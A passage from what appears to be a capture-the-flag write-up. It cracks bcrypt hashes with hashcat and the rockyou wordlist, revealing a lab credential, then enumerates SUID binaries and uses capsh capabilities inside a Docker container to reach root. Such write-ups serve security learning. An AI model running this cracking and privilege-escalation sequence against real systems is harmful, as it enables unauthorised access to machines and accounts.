 I'm pretty positive these are "3200 - Unix" type, so I start my attack with rockyou:

```bash
PS D:\> .\hashcat.exe -m 3200 -a 0 .\hash.txt "E:\Toolbox\wordlists\rockyou.txt"
```

After a short period of time, I get a match with `marcus:funkymonkey`

## Docker Privesc

The other significant bit was the docker privesc. The first good indicator I found was checking for file permissions:

```bash
find / -perm /4000 -ls 2>/dev/null
    42364     88 -rwsr-xr-x   1 root     root        88304 Feb  7  2020 /usr/bin/gpasswd
    42417     64 -rwsr-xr-x   1 root     root        63960 Feb  7  2020 /usr/bin/passwd
    42317     52 -rwsr-xr-x   1 root     root        52880 Feb  7  2020 /usr/bin/chsh
    42314     60 -rwsr-xr-x   1 root     root        58416 Feb  7  2020 /usr/bin/chfn
    42407     44 -rwsr-xr-x   1 root     root        44632 Feb  7  2020 /usr/bin/newgrp
     5431     32 -rwsr-xr-x   1 root     root        30872 Oct 14  2020 /sbin/capsh
    41798     56 -rwsr-xr-x   1 root     root        55528 Jan 20  2022 /bin/mount
    41819     36 -rwsr-xr-x   1 root     root        35040 Jan 20  2022 /bin/umount
    41813     72 -rwsr-xr-x   1 root     root        71912 Jan 20  2022 /bin/su

```

`capsh` or "capabilities shell" is pretty interesting to see in that output. Let's examine what capabilities we have access to:

```bash
www-data@50bca5e748b0:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@50bca5e748b0:/var/www/html$ capsh --print
Current: cap_chown,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_audit_write,cap_setfcap=eip
Bounding set =cap_chown,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_audit_write,cap_setfcap
Ambient set =
Current IAB: cap_chown,!cap_dac_override,!cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,!cap_linux_immutable,cap_net_bind_service,!cap_net_broadcast,!cap_net_admin,cap_net_raw,!cap_ipc_lock,!cap_ipc_owner,!cap_sys_module,!cap_sys_rawio,cap_sys_chroot,!cap_sys_ptrace,!cap_sys_pacct,!cap_sys_admin,!cap_sys_boot,!cap_sys_nice,!cap_sys_resource,!cap_sys_time,!cap_sys_tty_config,!cap_mknod,!cap_lease,cap_audit_write,!cap_audit_control,cap_setfcap,!cap_mac_override,!cap_mac_admin,!cap_syslog,!cap_wake_alarm,!cap_block_suspend,!cap_audit_read
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=33(root) euid=0(root)
gid=33(www-data)
groups=33(www-data)
Guessed mode: UNCERTAIN (0)
```
